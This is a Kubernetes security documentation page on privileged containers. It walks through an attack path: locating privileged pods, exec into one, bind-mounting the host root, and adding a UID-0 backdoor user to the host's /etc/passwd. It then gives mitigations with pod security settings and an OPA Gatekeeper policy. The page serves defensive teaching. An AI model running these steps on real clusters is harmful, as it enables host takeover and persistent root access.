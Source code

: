 ```yaml
---
sidebar_position: 3
title: Privileged Containers
description: Understanding the risks of privileged containers in Kubernetes and implementing best practices to secure workloads.
---
```


# Privileged Containers

Privileged containers run with elevated permissions, granting them access to the host system's resources. This configuration can lead to severe security risks, including the ability to modify the host file system, access hardware devices, and escalate privileges to the host.

---

## Exploitation Steps: Privileged Container

An attacker identifies a privileged container in the Kubernetes cluster using kubectl:

```bash
kubectl get pods -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged == true) | .metadata.name'
```

### 1. Gain Host Access via Privileged Container

The attacker can execute commands as root on the host system:

```bash
kubectl exec -it <privileged-pod> -- /bin/sh
```

### 2. Mount the Host File System

The attacker mounts the host's root file system to the privileged container:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
cd /mnt/host
ls -al
```

### 3. Create a Backdoor

The attacker adds a malicious user to the host /etc/passwd file, creating a backdoor:

```bash
echo 'malicious_user:x:0:0:root:/root:/bin/bash' >> /mnt/host/etc/passwd
```

### Result

The attacker gains persistent access to the host system, allowing them to execute commands as root, manipulate files, and bypass container isolation.

---

## Mitigation Techniques and Fixes

### 1. Avoid Running Privileged Containers

Issue: Privileged containers can bypass security boundaries and access the host.
Fix: Set privileged: false in the PodSecurityContext.

Example Pod Configuration:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: non-privileged-pod
spec:
  containers:
  - name: app-container
    image: nginx
    securityContext:
      privileged: false
```

### 2. Use Pod Security Standards (PSS)

Issue: Lack of security policies allows privileged containers to run.
Fix: Enforce Pod Security Policies (PSP) or Pod Security Standards (PSS).

Example of a Restricted Pod Security Policy:

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted-psp
spec:
  privileged: false
  runAsUser:
    rule: MustRunAsNonRoot
  allowPrivilegeEscalation: false
  volumes:
    - configMap
    - emptyDir
    - projected
    - secret
    - downwardAPI
  seLinux:
    rule: RunAsAny
```

### 3. Implement Admission Controllers

Issue: Privileged containers can be created without restriction.
Fix: Use admission controllers to block privileged containers.

Example Using OPA Gatekeeper Policy:

```yaml
apiVersion: templates.gatekeeper.sh/v1beta1
kind: ConstraintTemplate
metadata:
  name: k8sprivilegedcontainer
spec:
  crd:
    spec:
      names:
        kind: K8sPrivilegedContainer
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package k8sprivilegedcontainer

        violation[{"msg": msg}] {
          input.review.object.spec.containers[_].securityContext.privileged == true
          msg := "Privileged containers are not allowed"
        }
---
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPrivilegedContainer
metadata:
  name: deny-privileged-containers
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
```

---

## Key Takeaway

To mitigate risks associated with privileged containers:

- Disable privileged mode by setting privileged: false in the securityContext.
- Enforce Pod Security Standards (PSS) to restrict risky configurations.
- Use admission controllers to prevent privileged container deployments.
